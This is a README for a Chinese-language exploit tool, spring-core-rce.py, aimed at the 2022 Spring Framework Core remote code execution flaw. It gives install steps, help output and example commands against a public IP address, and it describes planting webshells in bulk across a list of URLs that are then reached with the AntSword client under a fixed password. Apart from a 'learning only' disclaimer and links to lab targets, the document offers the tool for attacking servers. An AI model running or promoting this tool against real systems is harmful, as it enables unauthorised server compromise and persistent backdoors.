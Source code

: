 # Spring Core RCE

> 影响范围：JDK>=9 的spring框架及衍生框架
>
> [文章指路](https://thehackernews.com/2022/03/unpatched-java-spring-framework-0-day.html)
>
> **脚本仅供学习使用，如作他用所承受的法律责任一概与作者无关**

## 1.installation

~~~shell
pip3 install -r requirements.txt
~~~

## 2.Usage

```shell
$ python3 spring-core-rce.py -h

 .----..-.-. .---. .-..-. .-..----.     .----. .---. .---. .----.     .---. .----..----.
{ {__-`| } }}} }}_}{ ||  \{ || |--' ___ | }`-'/ {-. \} }}_}} |__} ___ } }}_}| }`-'} |__}
.-._} }| |-' | } \ | }| }\  {| }-`}{___}| },-.\ '-} /| } \ } '__}{___}| } \ | },-.} '__}
`----' `-'   `-'-' `-'`-' `-'`----'     `----' `---' `-'-' `----'     `-'-' `----'`----'


                                                 Spring framework Core RCE
                                                                  By:K3rwin
usage: spring-core-rce.py [-h] [-u URL] [-s SYSTEM] [-r FILE]

Spring framework Core 0day RCE 帮助指南

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     指定url
  -s SYSTEM, --system SYSTEM
                        指定目标主机操作系统,默认linux,参数为win/linux
  -r FILE, --file FILE  指定url文件，批量写马
```

## 3.example

>使用 -u指定url，-s指定操作系统  参数为：linux 或者 win，默认为linux

```shell
python3 spring-core-rce.py -u "http://1.117.155.217:8080/" -s "linux"
```

![image-20220331203209702](README.assets/image-20220331203209702.png)

![image-20220331203858753](README.assets/image-20220331203858753.png)

> 使用 -r 批量写马 ，使用蚁剑连接，密码为k3rwin

~~~shell
python3 spring-core-rce.py -r "urls.txt"
~~~

![image-20220402112140568](README.assets/image-20220402112140568.png)

![image-20220402112349943](README.assets/image-20220402112349943.png)

## 4.Target

### ①.本地搭建docker靶场:

`docker pull vulfocus/spring-core-rce-2022-03-29:latest`

`docker run -d -p 8080:8080 --name spring-core-rce -it vulfocus/spring-core-rce-2022-03-29`

### ②.[在线靶场](http://vulfocus.io/#/dashboard)